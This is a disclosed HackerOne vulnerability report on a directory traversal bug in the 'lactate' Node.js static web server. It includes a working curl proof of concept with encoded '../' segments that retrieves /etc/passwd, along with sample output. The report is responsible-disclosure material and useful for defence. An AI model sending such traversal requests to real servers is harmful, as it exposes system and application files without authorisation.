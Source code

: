 # [lactate] Static Web Server Directory Traversal via Crafted GET Request

## Report Details
- **Report ID**: 296645
- **URL**: https://hackerone.com/reports/296645
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2017-12-10T08:22:40.195Z
- **Disclosed**: 2018-01-23T09:53:02.015Z

## Reporter
- **Username**: ysx
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nodejs-ecosystem

## Vulnerability Information
Hi @vdeturckheim,

A crafted GET request can be leveraged to traverse the directory structure of a host using the `lactate` web server package, and request arbitrary files outside of the specified web root.

## Module specification
* **Name**: [lactate](https://www.npmjs.com/package/lactate)
* **Version**: 0.13.12 (latest release build)

## Verified conditions
* **Test server:** Ubuntu 16.04 LTS
* **cURL package**: `curl 7.55.1 (2017-08-14)`

I have not presently attempted to contact the maintainer and would appreciate assistance from Node.js Security in doing so, as described in the Disclosure Guidelines. This package has a considerably larger download count than those previously reported.

## Proof of concept

Please globally install the `lactate` package and `cd` to a chosen directory (in this case, `/root`) on your test server. Next, run `lactate  -p 8081` to start serving from this location.

Substituting the `<server-IP>` value as appropriate, the following cURL request can be used to demonstrate this vulnerability by requesting the target `/etc/passwd` file:

```
curl "http://<server-IP>:8081/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd"
```

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
[...]
```

Thanks,

Yasin

## Impact

An adversary can leverage this vulnerability to request arbitrary files from the target host, which may include application source code or system configuration data.

## Attachments
No attachments
